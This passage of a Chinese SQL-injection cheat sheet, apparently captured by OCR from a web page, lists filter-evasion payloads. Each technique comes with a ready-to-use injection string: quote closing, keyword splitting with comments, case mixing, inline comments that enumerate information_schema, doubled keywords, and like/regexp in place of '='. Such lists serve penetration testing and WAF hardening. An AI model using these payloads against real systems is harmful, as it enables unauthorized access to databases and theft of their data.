 -------

**7. 绕过注释符号（#，-- ）过滤：** <br>

例：<br>
```sql
id=1' union select 1,2,3||'1
```

最后的 **or '1** 闭合查询语句的最后的单引号，或者：
```sql
id=1' union select 1,2,'3
```

----

**8.  = 号绕过：** <br>

**使用like 、rlike 、regexp 或者 使用< 或者 >**

----

**9. 绕过union，select，where等：**<br>

**（1）使用注释符绕过：** <br>

常用注释符：
```sql
//
-- （--空格）
/**/
#
--+
-- - (杠杠空格杠)
; (分号)
%00
--a
```

用法： <br>
```sql
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```


**（2）使用大小写绕过：** <br>
```sql
id=-1'UnIoN/**/SeLeCT
```

**（3）内联注释绕过：** <br>
```sql
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

**（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：** <br>
```sql
id=-1'UNIunionONSeLselectECT1,2,3–-
```
